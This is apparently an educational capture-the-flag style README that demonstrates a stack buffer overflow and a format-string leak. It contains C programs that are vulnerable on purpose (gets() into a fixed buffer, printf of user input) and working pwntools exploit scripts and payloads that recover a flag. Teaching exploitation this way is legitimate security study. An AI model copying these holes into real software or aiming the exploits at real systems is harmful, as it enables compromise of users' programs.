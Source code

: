 ### Easy Category :> Binary Exploitation
- This category contains simple programs i have written to demonstrate basic techniques in binary explotation .
- It covers the main topics but with most security features turned off.  Enjoy :D

#### bof
- This are the files <a href="./bof">here</a>
``` 
#include <stdio.h>

int main() {
    int check = 0;
    char input[40];

    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);

    puts("Welcome to udsm-coict! ");
    gets(input);

    if (check == 0xdeadbeed) {
        puts("Congrats, here's a flag!\n");
        system("/bin/cat flag.txt\n");
    }
}
```
- We are expected to overflow the variable input to a point where we overright the variable check with the right characters to pass the if condition .
```
#!/usr/bin/python3
from pwn import *

class con:
        def local():
                elf = ELF("./pwn")
                p = elf.process()
                return p
        def remote():
                p = remote("ip_addr", "port")
                return p
def exploit():
        p = con.local()
        print(p.recvline())
        offset = 40
        addr = p32(0xdeadbeed)
        payload = b"A"*offset + addr 
        p.sendline(payload)
        print(p.recvall())
if __name__ == "__main__":
        exploit()
```
- First i find the offset where our input starts to overright the variable check . i get its 40 then what follows is the word i want to overflow...Taking into account the little endiannes concept.
``` We can also do this with the struct module of python..
this would result to the following exploit :
python3 -c"import struct;print(b'A'*40 + struct.pack('<I',0xdeadbeed))" > exploit1
cat exploit1 | ./pwn
wiiiih :)
```
#### format string
- This are the files <a href="./string_format">here</a>
```
➜  string_format git:(master) ✗ cat pwn.c
#include <stdio.h>

void buffer_init() {
        setbuf(stdout, NULL);
        setbuf(stdin, NULL);
        setbuf(stderr, NULL);
}

int main() {
        char name[32];
        char flag[64];
        char *flag_ptr = flag;

        buffer_init();
        FILE *file = fopen("./flag.txt", "r");
        if (file == NULL) {
                printf("Please, create 'flag.txt' for debugging.\n");
                exit(0);
        }

        fgets(flag,sizeof(flag),file);

        while(1) {
                printf("What is your name?\n");
                fgets(name,sizeof(name),stdin);
                printf("\nHello there, ");
                printf(name);
                printf("\n");
        }
        return 0;
}
```
The bug is at the printf function where the function is not given a format in which it should print the contents of name variable.To mean a format specifier is not provided xD.
```
#!/usr/bin/python3

from pwn import *

class conn:
        def local():
                elf = ELF("./pwn")
                p = elf.process()
                return p
        def remote():
                p = remote("ip_addr",port)
                return p

def exploit():
        p = conn.local()
        print(p.recvline())
        payload = b"%p"*16
        p.sendline(payload)
        flag = str(p.recvuntil(b"What is")).replace("(nil)",'')
        flag = flag.replace("\\n",'')
        flag = flag.replace("'",'')
        flag = flag.replace("What is",'')
        print(flag)
        print("Wiiihiiiiihihihih :)")
        decoded_flag = []
        for element in flag.split("0x")[1:]:
            decoded_flag.append(str(p32(int("0x" + element,16))))
        decoded_flag = ''.join(decoded_flag)
        print(decoded_flag.replace("'b'",''))
        p.close()

if __name__ == "__main__":
        exploit()
```
Happy hacking :D
wiiih  :)
